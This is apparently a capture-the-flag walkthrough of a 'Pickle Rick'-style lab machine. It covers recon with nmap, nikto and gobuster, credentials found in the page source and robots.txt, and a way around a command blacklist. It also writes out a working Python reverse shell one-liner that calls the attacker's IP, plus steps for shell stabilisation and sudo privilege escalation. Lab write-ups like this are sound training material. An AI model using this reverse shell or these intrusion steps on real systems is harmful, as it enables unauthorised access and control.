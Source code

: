 target machine IP address:  10.10.126.11 
kali IP address: 10.10.159.125

# Recon 
`nmap -sV(service) -sC(script) -oN(output) file  10.10.126.11` 
	![](Pasted%20image%2020241112190313.png)
`nikto -h http://10.10.126.11 | tee nikto.log (output)`
	![](Pasted%20image%2020241112190816.png)
`gobuster dir -u http://10.10.126.11 -w /root/Desktop/wordlists/dirb/big.txt -x php,sh,txt,cgi,html,js,css,py | tee gobuster.log(output)`
	![](Pasted%20image%2020241112191526.png)

# Task 1
- page source revereals username: R1ckRul3s
	![](Pasted%20image%2020241112191833.png)

- `robots.txt` reveals: Wubbalubbadubdub
	![](Pasted%20image%2020241112192130.png)

- `login.php` reveals: here we will login with the above discovered info
	![](Pasted%20image%2020241112192340.png)![](Pasted%20image%2020241112192507.png)

- `cat` command is not allowed so we can make use of ``grep` command
	![](Pasted%20image%2020241112194408.png)
	
- using `grep -R .` to display info of all files contained in the dir
	![](Pasted%20image%2020241112194627.png)
	![](Pasted%20image%2020241112194913.png)
- we notice that a lot of commands are blacklisted 
	![](Pasted%20image%2020241113145954.png)
- we can use a reverse shell (pentestmonkey Pyhton rev.shell)
  ![](Pasted%20image%2020241113150553.png)![](Pasted%20image%2020241113150433.png)
  modifying command:
  ```
  python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.159.125",4445));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
  ```
  ![](Pasted%20image%2020241113152445.png)
  - *we will stabilize the shell using below technique:*
	```
	# Step 1: Spawn a TTY shell
	python3 -c 'import pty; pty.spawn("/bin/bash")'
	
	# Step 2: Set environment variables
	export TERM=xterm
		
	# Step 3: Background the shell
	Ctrl + Z
	
	# Step 4: Configure local terminal settings
	stty raw -echo; fg
	```
![](Pasted%20image%2020241113155919.png)

- check directories permissions `ls -ld` 
- cd where we have write priv(`/tmp`) and transfer linepeas via python3 -m http.server {port} and run it 
- checking other users in home directory (rick dir) -> flag2
- checking root permissions --> `sudo -l` ( we see that we have root permissions) -> flag3

